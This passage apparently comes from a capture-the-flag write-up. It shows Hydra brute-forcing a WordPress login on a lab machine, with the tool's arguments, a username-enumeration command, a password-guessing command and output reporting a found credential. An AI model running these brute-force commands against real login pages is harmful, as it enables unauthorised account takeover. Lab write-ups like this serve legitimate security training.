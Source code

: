 You might remember for Hydra that:

<fieldset>
<legend>Hydra Arguments</legend>
<dl>
<dt><code>-L</code></dt>
<dd>Use a wordlist for the username (e.g. <code>hydra -L ./wordlist.txt ...</code>).</dd>
<dt><code>-l</code></dt>
<dd>Use a single, specific username (e.g. <code>hydra -l jdoe ...</code>).</dd>
<dt><code>-P</code></dt>
<dd>Use a wordlist for the password (e.g. <code>hydra -P ./wordlist.txt ...</code>).</dd>
<dt><code>-p</code></dt>
<dd>Use a single, specific password (e.g. <code>hydra -p password ...</code>)</dd>
</dl>
</fieldset>

#### Hydra for usernames

Keeping that in mind, we want to first use a **fixed password** and our **wordlist for potential usernames**:

```bash
hydra -L ./new.txt -p test \
    10.10.10.10 http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -I 2>&1 | tee $ROOM/hydra-usernames.log
```

#### Hydra for passwords

From this effort, we see the username "Elliot" in various casing, so it's probably case-insenstive. Now, let's flip it around, use **"elliot" for a username** and the **wordlist for the password**:

```bash
hydra -l elliot -P ./new.txt \     
    10.10.10.10 http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -I 2>&1 | tee $ROOM/hydra-passwords.log
```

It took about :15 minutes but we were able to get the password:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-12 23:14:38
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://10.10.83.180:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered
[STATUS] 1745.00 tries/min, 1745 tries in 00:01h, 9707 to do in 00:06h, 30 active
[STATUS] 1136.67 tries/min, 3410 tries in 00:03h, 8042 to do in 00:08h, 30 active
[STATUS] 845.00 tries/min, 5915 tries in 00:07h, 5537 to do in 00:07h, 30 active
[STATUS] 723.67 tries/min, 8684 tries in 00:12h, 2768 to do in 00:04h, 30 active
[80][http-post-form] host: 10.10.83.180   login: elliot   password: *********
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-12 23:31:30
```
